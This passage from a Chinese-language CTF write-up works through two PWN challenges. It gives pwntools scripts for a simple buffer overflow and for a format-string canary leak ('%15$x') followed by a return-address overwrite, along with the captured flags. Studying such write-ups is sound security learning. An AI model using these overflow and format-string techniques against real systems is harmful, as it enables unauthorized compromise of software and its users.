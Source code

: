 

## PWN

### <a class="reference-link" name="%E4%BD%A0%E7%9F%A5%E9%81%93BOF%E5%90%97%EF%BC%9F"></a>你知道BOF吗？

**题目描述**<br>
nc 202.98.28.108 9897

**解析思路**

```
from pwn import *

useless = 0xABCD1234
offset = 40

payload = "A" * offset + p32(0xABCD1234)

r = remote('202.98.28.108',9897)
r.sendline(payload)
r.interactive()
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e103dcbbd5a5c803.png)得出flag`{`what_1s_BOF_you_know_now`}`

### <a class="reference-link" name="%E6%88%91%E7%9A%84%E5%AD%97%E7%AC%A6%E4%B8%B2"></a>我的字符串

**题目描述**<br>
nc 202.98.28.108 9896

**解析思路**

带有canary保护，需要先利用printf格式化字符串漏洞获取保护值，再次覆盖地址：

```
from pwn import *

r = remote('202.98.28.108',9896)

func = 0x0804854d
r.sendline('%15$x')
canary = int(r.recv(), 16)

payload = 'A'*40 + p32(canary) + 'B'*12 + p32(func)

r.sendline(payload)
r.interactive()
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01fab88fd0ec04f830.png)<br>
得到flag`{`fmt_really_good_for_PWN`}`

锵锵锵，以上是大致解题的思路与过程，欢迎大家交流！
